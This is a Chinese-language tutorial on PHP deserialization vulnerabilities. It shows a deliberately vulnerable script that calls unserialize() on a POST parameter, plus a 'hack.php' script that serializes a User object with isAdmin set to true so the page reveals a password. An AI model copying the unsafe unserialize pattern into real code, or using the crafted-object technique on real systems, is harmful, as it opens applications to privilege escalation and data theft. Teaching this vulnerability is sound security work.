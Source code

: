 # php 反序列化

序列化是指将 PHP 中的数据结构（例如**数组**或**对象**的属性）转换成一个字符串的过程。

反序列化是序列化的逆过程，它将之前通过 `serialize()` 函数生成的字符串转换回原来的 PHP 数据结构（如数组或对象）。



反序列化漏洞是指，PHP程序可用通过HTTP传输（或其他方法）接受一个字符串，并且将字符串反序列化为一个对象。可用通过构造特殊的字符串，PHP程序将此字符串反序列化为一个对象后，控制这个对象的属性值，以达到控制程序执行的目的。



## 示例 1

假设存在以下PHP代码，它通过POST请求接受一个名为name的字符串变量，并将直接字符串反序列化为一个对象。

通过分析printData()方法的代码，得知只需要将User的isAdmin设置为true，就会打印出Password。

```php
<?php

class User {

    public $username;
    public $isAdmin;

    public function PrintData() {
        if ($this->isAdmin == true) {
            echo $this->username . " is an admin\n";
            echo "Password is xxxxxxxxx\n";
        }
        else {
            echo $this->username . " is not an admin\n";
        }
    }

}

$obj = unserialize($_POST['name']);

if (is_object($obj))   
    $obj->printData();
                      
?>
```



创建一个PHP文件（命名为hack.php），在文件中定义一个User类，并初始化username和isAdmin的值，在序列化这个类的对象。

```php
<?php

class User {

    public function __construct() {
        $this->username = "test";
        $this->isAdmin = true;
    }

}

echo serialize(new User) . "\n";
```
